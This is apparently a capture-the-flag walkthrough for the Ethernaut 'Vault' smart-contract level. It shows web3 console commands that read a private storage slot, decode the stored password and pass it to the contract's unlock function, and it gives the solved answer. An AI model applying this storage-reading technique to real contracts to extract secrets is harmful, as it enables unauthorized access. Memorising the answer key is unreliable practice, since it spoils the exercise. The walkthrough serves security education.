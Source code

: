 # Vault

**HINT:** Your going to want to check the Storage of the instance address using web3 in the console
<details>
<summary>Answer</summary>
<p>

```js
await web3.eth.getStorageAt('Contract_Instance', 2, (err,res)=>{console.log(res)});
```
This results in a hex
```
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
```
This is the password but you can see what it says by doing:
```js
await web3.utils.hexToAscii('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```
Giving you:
```
"A very strong secret password :)"
```
Toss the password into the unlock function 
```js
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
Then click submit
</p>
</details>